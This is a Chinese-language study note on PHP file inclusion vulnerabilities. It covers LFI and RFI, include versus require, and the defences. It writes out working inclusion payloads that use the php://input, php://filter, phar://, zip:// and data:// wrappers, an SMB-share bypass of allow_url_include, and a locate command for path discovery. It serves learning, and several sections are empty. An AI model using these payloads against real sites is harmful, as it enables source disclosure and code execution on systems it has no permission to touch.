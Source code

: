 ## 文件包含

[toc]

漏洞概念及原理

漏洞危害

漏洞挖掘方法

漏洞利用条件

漏洞利用手法

漏洞利用的绕过

漏洞防范思路



### 概念或原理

后端具有包含功能的代码接收路径是攻击者可控的,导致包含了预期外的文件

### 漏洞危害

条件满足的情况下:

- 能够执行脚本代码
- 执行系统漏洞
- 读取系统敏感文件

### 漏洞分类

- LFI
- RFI

### include和require的区别

当要包含的文件不存在时，

- include会产生一个警告(Warning)，该语句后面的程序会继续执行；
- require则产生一个致命错误(Fatal error)，程序就此终止。

### include_once(require_once)和include(require)

- include会将指定的文件载入并执行里面的程序，重复引用包含多次；
- include_once函数会将指定的文件载入并执行里面的程序，如果该文件中已经被包含过，则不会再次包含。

### 远程文件包含的条件

一般情况下,需要php.ini中配置allow_url_include=on

### 文件包含漏洞利用方式

- 读取敏感文件、收集信息
- 执行代码和命令:上传文件后包含、构建远程资源并包含、利用php相关伪协议包含

### 典型的系统敏感文件

- Windows

  ```
  
  ```

- Linux

  ```
  
  ```

### php相关伪协议

#### php://input

打开一个文件输入流进行文件内容写入,一般通过POST请求方式写入文件内容

```php
?file=php://input
<?php phpinfo();?>	//脚本内容通过post提交
```

#### php://filter

打开一个文件输入输出流进行读写,常结合base64编码读写不可以直接读写的数据

```php
#读取:
# 明文读取
index.php?file1=php://filter/resource=file.txt

index.php?file1=php://filter/read=convert.base64-encode/resource=index.php	//读取index.php的代码并通过base64编码的方式输出



#写入:
# 明文写入
index.php?file=php://filter/resource=1.txt&txt=welcome to the bugkuctf

# base64编码写入Qftm到test.txt在中
index.php?file2=php://filter/write=convert.base64-encode/resource=test.txt&txt=Qftm
```

拓展文章

> https://www.anquanke.com/post/id/202510

#### phar://

用于压缩包.zip文件的读取,文件路径可以用绝对路径也可以用相对路径		要求php版本大于5.3.0

```php
?file=phar://../../dvwa/upload/123.zip/123.txt			#相对路径
?file=phar://c:/phpstudy/www/dvwa/upload/123.zip/123.txt	#绝对路径


https://best-sound.info/CKEdit/files/20220925223849.zip
```

#### zip://

功能和用法都和phar://差不多,但只能使用绝对路径,且压缩包内的路径需要用%23来代替/		要求php版本大于5.3.0

```php
zip://c:/phpstudy/www/dvwa/upload/123.zip%23123.txt
```

#### data://

打开一个文件输入流,写入文件内容,使用data://的时候,最好省略php语法中最后的?>

```php
data://text/plain,<?php phpinfo();?>

也可以通过编码传入
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==		#<?php phpinfo();		使用编码需要省略?>,不然会报错
    
通过实验发现这个可能是编码的问题因为<?php phpinfo();?>在编成base64的时候出现了+。而浏览器不认识+号。所以解决方法
不写后面的?> 因为PHP里面其实不需要写后面的前面的;号就已经说明结束了。如果没有;号就必须写?>作为结束。
添加空格改变base64编码。
将+号换成%2b
```



### 文件包含漏洞防护思路

在保证功能正常的情况下

关闭allow_url_include

过滤前端输入的`.  .. /  \`

在生成被包含文件的路径字符串后进行正则检查

使用白名单,限定被包含文件的路径和文件名

配置open_basedir的值,限定读写范围

### 使用SMB包含文件(绕过allow_url_include=off)

- Windows

  在程序和功能打开SMB,然后新建一个文件夹,将脚本文件放在该文件夹内后,共享该文件夹并且添加everyone,即可实现文件共享

  ![image-20220925185302782](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/image-20220925185302782.png)

  文件包含的时候,直接输入`\\主机名(IP地址或者计算机名称)\共享文件夹名称\文件名`即可包含该文件

  #### 绕过思路:过滤反斜杠

### session

储存位置:session的保存位置在php.ini中`session.save_path`字段设置

session的保存形式:	

### php://filter

# LINUX   locate

```bash
sudo locate /var/lib/mlocate/mlocate.db www
#即可列出系统中包含www的路径,可以用来包含文件
```



